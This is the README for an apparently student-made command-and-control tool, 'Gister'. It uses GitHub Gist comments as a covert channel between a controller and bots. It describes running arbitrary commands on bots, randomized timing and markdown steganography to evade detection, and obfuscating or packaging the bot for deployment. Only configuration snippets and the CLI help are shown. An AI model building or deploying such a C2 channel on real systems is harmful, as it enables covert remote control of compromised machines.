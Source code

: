 # Gister
## Description
C&C CLI controller and bot that use gist.github.com for communication.
The bot uses comments under a given Gist to communicate with the controller.  
To evade detection, all intervals for pinging and checking new messages are randomized and some steganography is used (links in markdown are not shown if the alternate text field is empty).  
If a message was "consumed" (read and responded to), it is immediately removed from the Gist comment thread.

## Usage
### Controller
For running the controller, you have to create another python script which initalizes the class Controller with the specified parameters.
```python
from controller import Controller


def main():
    controller = Controller(
        "ghp_xxxxxxxxxxxxxxxxxxxxxxxxxx",                   # GitHub Personal Access Token
        "xxxxxxxxxxxxxxxxxxxxxxxxxxxxxx",                   # Gist ID of the Gist to be used for communication
        "xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx="      # 32-byte seed in Base64 (`openssl rand -base64 32`) used to generate the private key used for signing commands
    )


if __name__ == "__main__":
    main()
```
**Right after start up, you get a VerifyKey used by the bots to verify the signed commands messages.**
```shell
Verify key: xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx=
(*)$ 
```
The interactive shell supports a couple of commands, which are described in the help menu.
```shell
(*)$ help

Gister Bot C&C CLI
==================
List of available commands:
status			=> Prints the number of available bots
list			=> Lists available (alive) bots
bot <bot id>	        => Selects a bot to execute commands on
exec <command>	        => Executes a command on a selected bot
exit			=> Cleans up the communication channel and exits
```
  
### Bot
For running the bot, you have to create yet another python script that initalizes the class Bot with the specified parameters.  
The **VerifyKey** used is generated by the controller on startup.  
  
**DO NOT USE THE 32-BYTE SECRET USED BY THE CONTROLLER IN THE BOT'S CONFIGURATION. IT WILL NOT RESPOND TO MESSAGES SINCE THE SIGNATURES WON'T BE VALID AND YOU WILL COMPRIMISE THE CONFIDENTIALITY OF YOUR PRIVATE KEY.**  
```python
from bot import Bot


def main():
    bot = Bot(
        "ghp_xxxxxxxxxxxxxxxxxxxxxxxxxx",                   # GitHub Personal Access Token
        "xxxxxxxxxxxxxxxxxxxxxxxxxxxxxx",                   # Gist ID of the Gist to be used for communication
        "xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx="      # The VerifyKey generated by the controller
    )


if __name__ == "__main__":
    main()
```

### Execution
You can create stand-alone self-contained executables from the scripts given in **Usage** using PyInstaller.
You can also create python scripts, which contain the relevant classes, obfuscate them and use those.

## Disclaimer
This project was made for educational purposes only as a part of the B4M36BSY course on the Faculty of Electrical Engineering, Czech Technical University in Prague.
